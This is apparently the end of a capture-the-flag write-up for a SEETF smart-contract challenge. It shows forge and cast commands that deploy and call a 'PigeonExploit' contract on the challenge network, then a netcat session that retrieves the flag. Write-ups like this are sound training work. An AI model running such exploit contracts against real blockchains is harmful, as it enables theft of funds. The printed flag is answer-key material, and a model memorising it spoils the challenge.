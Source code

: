 It works, so we can just exploit it on the challenge network

First just deploy the exploit contract

```
# forge create ./src/exploit.sol:PigeonExploit --private-key <key> --rpc-url http://win.the.seetf.sg:8547/aa649f82-733d-4c7d-8249-ed2d3260b326
```

Then just call exploit()

```
# cast send 0x1084241588a63A5BE46508D0D15c0B171Ca3cE36 "exploit(address)" 0xeE3C0A145A766891711F39097fa5A045e0400C08 --rpc-url http://win.the.seetf.sg:8547/aa649f82-733d-4c7d-8249-ed2d3260b326 --private-key <key>
```

```
# nc win.the.seetf.sg 8548
1 - launch new instance
2 - kill instance
3 - acquire flag
action? 3
uuid please: aa649f82-733d-4c7d-8249-ed2d3260b326

Congratulations! You have solve it! Here's the flag: 
SEE{c00_c00_5py_squ4d_1n_act10n_9fbd82843dced19ebb7ee530b540bf93}
```
